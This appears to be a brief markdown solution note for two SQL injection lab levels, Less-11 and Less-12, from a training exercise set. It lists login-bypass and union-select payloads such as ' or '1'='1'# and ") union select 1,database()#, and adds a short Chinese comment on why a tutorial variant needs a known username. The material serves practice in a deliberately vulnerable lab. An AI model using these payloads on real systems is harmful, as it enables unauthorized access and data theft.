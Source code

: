 ## Less-11    
payload：    
```
' or '1'='1'#
注入天书教程中用了 admin'or'1'='1#，这个payload需要事先知道一个用户名，否则总是提示登录失败。
' union select 1,database()#
```
其他类似。

## Less-12   
payload：    
```
") or "1"="1"#
") union select 1,database()#
```
